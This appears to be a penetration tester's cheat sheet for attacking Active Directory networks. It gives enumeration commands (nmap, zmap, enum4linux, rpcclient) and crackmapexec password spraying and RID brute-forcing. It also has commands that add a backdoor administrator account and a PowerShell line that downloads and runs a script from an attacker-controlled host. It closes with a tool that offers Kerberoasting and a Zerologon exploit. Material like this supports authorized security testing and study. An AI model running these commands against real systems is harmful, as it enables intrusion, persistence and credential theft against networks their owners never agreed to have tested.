 # First Steps

## Network Enumeration

```bash
nmap -sP -p $ip #ping scan
nmap -Pn -n -T4 -v3 $ip #quick scan
rustscan -a $ip
```

## Domain Name

```bash
cme smb $network_ip
```

## Domain Controllers

They are usually DNS Servers. They have usually LDAP listening port 389.

```bash
nmap -p53,389 $network_ip

nmcli dev show eth0/interface

nslookup -type=SRV _ldap._tcp.dc.msdcs.<domain.local>
```

## Enumerate alive machines

```bash
sudo zmap -i <iface> -P 2 --probe-module=icmp_echoscan -B 1M --max-targets=10000000 -o targets_rfc1918.txt $network_ips
```

## Enumerate services

### DNS

```bash
# test for dns attacks
dnsenum $domain -f /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt --dnsserver $dns_server_ip > dnsenum.txt
```

### `enum4linux`

Tool for enumerating information from Windows and Samba systems.

#### Basic commands

```bash
# Default command that you will use almost always
enum4linux -a 0.0.0.0
​
# list groups
enum4linux -G 0.0.0.0
​
# list windows shares
enum4linux -S 0.0.0.0
```

### `crackmapexec`

> Post-exploitation tool that helps automate assessing the security of large Active Directory networks.

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

#### Installation

{% embed url="https://mpgn.gitbook.io/crackmapexec/getting-started/installation/installation-on-unix" %}

```bash
# only in upgraded Windows servers from 2003 - No auth attempt
# to get password policy, minimum length, account lockout threshold
crackmapexec smb domain/IP --pass-pol -u '' -p ''
crackmapexec smb domain/IP -u USER -p WORDLIST	
# The usernames with RID greater than 1000 into a username file
crackmapexec smb vulnet.thm -u robot -p '' --rid-brute | grep  SidTypeUser	
# Enumerate a user share
crackmapexec smb 10.10.10.161 -u svc-alfresco -p s3rvice --shares
```

### UO | Users Enumeration

```bash
GetADUsers.py $domain/ -dc-ip $ip

# More infos with rpcclient
rpcclient -U "" -N $ip

# Get all of the OUs in a domain
Get-ADOrganizationalUnit -Filter 'Name -like "*"' | Format-Table Name, DistinguishedName -A

### Create a new user in admin groupe 

# username:password = anon:p3nT3st!
net user anon p3nT3st! /add
net localgroup administrators anon /add

net user anon p3nT3st! /add;net localgroup administrators anon /add

If you cannot import module start a webserver and
IEX(New-Object Net.Webclient).downloadstring('http://<IP>/Powershell.ps1')
```

## Tools

### AD Enum

* ASREPRoasting
* Kerberoasting
* Dump AD as BloodHound JSON files
* Searching GPOs in SYSVOL for cpassword and decrypting
* Run without creds and attempt to gather for further enumeration during the run
* Sample exploits included:
  * CVE-2020-1472

{% embed url="https://github.com/CasperGN/ActiveDirectoryEnumeration" %}

### Install

```bash
pip3 install ActiveDirectoryEnum
python -m ade

# query exploit for poc
python -m ade --exploit cve-2020-1472
```
